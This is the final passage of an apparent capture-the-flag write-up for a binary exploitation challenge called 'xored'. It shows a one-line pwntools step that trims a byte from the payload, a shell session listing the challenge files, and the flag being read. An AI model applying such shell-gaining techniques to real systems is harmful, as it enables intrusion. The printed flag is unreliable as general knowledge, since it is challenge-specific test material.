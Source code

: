 It's only padding so by shaving off a byte at the front of the payload (killing the 'K' in 'KuCOL'), everything else should align up like before:

```python
io.sendafter(b'> ', secur[1:])
```


This time we get a shell for real:

```
the results:
$ 
$ whoami
ept
$ ls -la
total 52
drwxr-xr-x 1 root root    83 Oct 22 16:33 .
drwxr-xr-x 1 root root    17 Oct 22 16:33 ..
-rwxr-xr-x 1 root root   220 Feb 25  2020 .bash_logout
-rwxr-xr-x 1 root root  3771 Feb 25  2020 .bashrc
-rwxr-xr-x 1 root root   807 Feb 25  2020 .profile
-rwxrwxr-x 1 root root 17328 Oct 22 16:33 xored
-rwxrwxr-x 1 root root 18744 Oct  1 18:14 ynetd
$ cat /opt/flag
EPT{t0ld_y0u_x0r_1s_s3cur3_!}$  
``` 

### Pwnd at last!

:tada:

